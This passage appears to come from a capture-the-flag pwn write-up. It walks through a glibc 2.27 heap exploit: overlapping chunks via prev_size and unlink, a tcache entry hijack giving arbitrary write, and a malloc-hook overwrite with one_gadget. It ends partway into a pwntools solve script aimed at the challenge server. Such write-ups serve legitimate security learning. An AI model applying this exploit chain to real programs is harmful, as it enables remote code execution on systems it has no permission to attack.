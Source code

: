 When the prev_size field of second chunk is not updated properly, then we can create two chunk overlapping:

- free chunk `b1`
- free chunk `c`, this action will trigger `unlink(b - or b1 now)` function (remember that you have to setup necessary values to bypass the security check `corrupted size vs. prev_size` in unlink function), result in a new merged chunk with:
  - size: original size of chunk `b` (saved in chunk c header) + size of chunk c
  - pointer: point to b (b1 now)

=> chunk `b2` and newly merged chunk are overlapping.

I can exploit the `overlapping` chunk to gain `arbitrary write` with `hijack tcache entry` technique (I don't know what it is called because I found this technique myself when reading tcache source for exploit double free vuln), you can read it [here](../../../challenges/pwnable.tw/challenges/Tcache%20Tear/README.md#vi-read-libc-227-tcache-for-double-free)

### 3. arbitrary write => rce

- rewrite GOT ? NO: Full RELRO
- ret2libc, ROP chain ? NO: ASLR, no stack addr leak

time to use [hijack Malloc hooks < 2.34](https://0x434b.dev/overview-of-glibc-heap-exploitation-techniques/#malloc-hooks) with one_gadget.

constraints (from [here](https://github.com/Naetw/CTF-pwn-tips?tab=readme-ov-file#hijack-hook-function)):

- Have libc base address - passed
- Write to arbitrary address - passed
- The program uses malloc, free or realloc. - passed
  
## VII. flag

### 1. poc

[solve.py](./bin/solve.py):

```python
#!/usr/bin/env python3

from pwn import *

context.terminal = ["tmux", "splitw", "-h"]

exe = ELF("chall_patched")
libc = ELF("./libc-2.27.so")
ld = ELF("./ld-2.27.so")

context.binary = exe

host = "mc.ax"
port = 32526
# host = "localhost"
# port = 5000

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
```